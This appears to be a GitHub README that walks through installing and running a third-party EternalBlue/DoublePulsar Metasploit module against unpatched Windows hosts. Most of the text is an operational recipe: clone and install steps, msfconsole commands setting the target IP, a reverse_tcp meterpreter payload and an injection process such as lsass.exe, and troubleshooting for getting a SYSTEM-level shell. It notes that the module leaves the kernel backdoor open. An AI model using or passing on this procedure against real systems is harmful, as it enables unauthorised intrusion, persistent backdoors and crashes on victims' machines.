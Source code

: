 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

	1.) git clone (https://github.com/w0rtw0rt/EternalBlue) to any directory
	2.) Place eternalblue-doublepulsar.rb file into the /usr/share/metasploit-framework/modules/exploits/windows/smb folder
	3.) open terminal
	4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
	5.) add directory in your home directory for .wine (mkdir .wine)
	6.) cd .wine 
	7.) mkdir drive_c
	8.) open metasploit (msfconsole)
	9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
	10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
	11.) show options
	12.) set DOUBLEPULSARPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	13.) set ETERNALBLUEPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	14.) set RHOST *target IP*
	15.) set TARGETARCHITECTURE *x86 or x64*
	16.) set TARGET *target OS - Windows 2008/7 down to 2003/XP*
	17.) set PROCESSINJECT *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
